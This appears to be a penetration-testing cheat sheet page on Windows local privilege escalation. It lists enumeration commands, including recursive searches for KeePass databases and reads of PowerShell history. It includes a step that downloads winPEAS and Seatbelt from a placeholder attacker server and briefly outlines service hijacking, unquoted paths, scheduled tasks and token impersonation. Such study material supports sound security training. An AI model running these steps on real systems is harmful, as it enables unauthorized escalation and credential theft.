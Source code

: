 # Local Privilege Escalation

## Basic Enumeration

Username and hostname:

```batch
whoami
hostname
```

Group memberships of the current user:

```batch
whoami /groups
```

Existing users and groups:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <group_name>
```
{% endtab %}

{% tab title="Batch" %}
```batch
net user
```
{% endtab %}
{% endtabs %}

Operating system, version and architecture:

```batch
systeminfo
```

Network information:

```batch
ipconfig /all
route print
netstat -ano
```

Installed applications:

{% code overflow="wrap" %}
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

Running processes:

```powershell
Get-Process
Get-Process <Proccess> | select Path
```

Search for files:

{% code overflow="wrap" %}
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.bin *.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
```
{% endcode %}

PowerShell history:

```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

PowerShell history event logs:

```
Get-WinEvent Microsoft-Windows-PowerShell/Operational | Where-Object Id -eq 4104 | ForEach-Object { $_.Message } | findstr "dave*"
```

## Automated Enumeration

Download and execute **`winPEAS`** and **`Seatbelt`**:

```powershell
iwr -uri http://<attacker_http_server>/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://<attacker_http_server>/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

## Windows Services Exploitations

### Service Binary Hijacking

This attack involves replacing the service binary with a malicious version and restart the service.

{% content-ref url="service-binary-hijacking.md" %}
[service-binary-hijacking.md](service-binary-hijacking.md)
{% endcontent-ref %}

### Service DLL Hijacking

This attack is similar to the "Service Binary Hijacking" but Instead of replacing the binary, it involves overwriting a [DLL ](https://en.wikipedia.org/wiki/Dynamic-link\_library)the binary uses.

Another method is to hijack the DLL search order.

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

{% content-ref url="service-dll-hijacking.md" %}
[service-dll-hijacking.md](service-dll-hijacking.md)
{% endcontent-ref %}

### Unquoted Service Paths

This attack relies on windows find an executable path when it's Unquoted.

{% content-ref url="unquoted-service-paths.md" %}
[unquoted-service-paths.md](unquoted-service-paths.md)
{% endcontent-ref %}

## Scheduled Tasks

Windows Task Scheduler can execute automated tasks. This tasks can execute binary files and also scripts. Also, The scheduled tasks is running behalf on user.

{% content-ref url="scheduled-tasks.md" %}
[scheduled-tasks.md](scheduled-tasks.md)
{% endcontent-ref %}

## Token impersonation

Windows identifies users by generating an access token assigned to each user. This token contains information about the user's privileges. When a user runs a process or thread, the primary token is assigned, specifying the permissions for that process. A thread can also have an impersonation token assigned, which provides a different security context; in this case, the process will run based on the impersonation token instead of the primary token.

{% content-ref url="token-impersonation.md" %}
[token-impersonation.md](token-impersonation.md)
{% endcontent-ref %}

## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation" %}
Hacktricks - Windows Local Privilege Escalation
{% endembed %}

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}
winPEAS
{% endembed %}
